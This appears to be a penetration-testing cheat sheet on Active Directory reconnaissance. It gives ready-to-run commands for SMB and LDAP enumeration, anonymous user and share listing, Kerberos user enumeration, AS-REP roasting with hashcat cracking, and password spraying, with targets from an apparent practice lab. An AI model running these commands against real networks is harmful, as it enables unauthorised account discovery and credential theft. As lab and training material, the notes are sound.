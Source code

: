 # Reconnaissance

## Enumerate the network and DCs

List the domains available on the network.

```bash
cme smb <IP>/24
```

You will be able to see the **smb version.**

You will also be able to see if **smb signing** is enabled. By default, this is true for DC.&#x20;

Devices with **smb signing enable** might be your DCs.



### Find DC IP

Now that you find your domain, you can now locate the DCs

```bash
nslookup -type=srv _ldap._tcp.dc._msdcs.<domain_name> <IP>
```

Why does it work ?



## Enumerate DC's anonymously

### Enumerate users

#### CME again

```bash
cme smb <DC_IP> --users
```

You can also use the tool [`enum4linux`](https://github.com/CiscoCXSecurity/enum4linux)&#x20;



#### RPC

```bash
rpcclient -U "<DOMAIN_NAME>\\" <DC_IP> -N
rpcclient $> help
rpcclient $> enumdomusers
rpcclient $> enumdomgroupsbash
```

How ?





```bash
net rpc group members '<A_GROUP_NAME>' -W '<DOMAIN_NAME>' -I '<DC_IP>' -U '%'
```

How ?



#### NMAP

If you still want to enumerate anonymously (without an account) but can't create anonymous connections as before:

```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<REALM_NAME>',userdb=users.txt" <REALM_IP>
```

How ?

* When an **invalid username** is requested, the server will respond using the Kerberos error code `KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN`.
* When a **valid username** is requested, the server answers with either a **TGT ticket** or a `KRB5KDC_ERR_PREAUTH_REQUIRED` signaling that the user is required to pre authenticate.





## Enumerate guest access on smb shares

```bash
enum4linux -a -u "" -p "" <DC_IP>
enum4linux -a -u "guest" -p "" <DC_IP>

smbmap -u "" -p "" -P 445 -H <DC_IP>
smbmap -u "guest" -p "" -P 445 -H <DC_IP>

smbclient -U '%' -L //<DC_IP>
smbclient -U 'guest%' -L //<DC_IP>

cme smb <IP> -u '' -p '' # enumerate null session
cme smb <IP> -u 'a' -p '' # enumerate anonymous session
cme smb <IP> -u 'a' -p '' --shares
```



## Enumerate passwords

### ASREP - roasting

```
GetNPUsers.py north.sevenkingdoms.local/ -no-pass -usersfile users.txt
hashcat -m 18200 asrephash /usr/share/wordlists/rockyou.txt

Rubeus asreproast /format:hashcat
hashcat -m 18200 asrephash /usr/share/wordlists/rockyou.txt
```

### Password Spray

```
cme smb 192.168.56.11 -u users.txt -p users.txt --no-bruteforce
sprayhound -U users.txt -d north.sevenkingdoms.local -dc 192.168.56.11 --lower
```

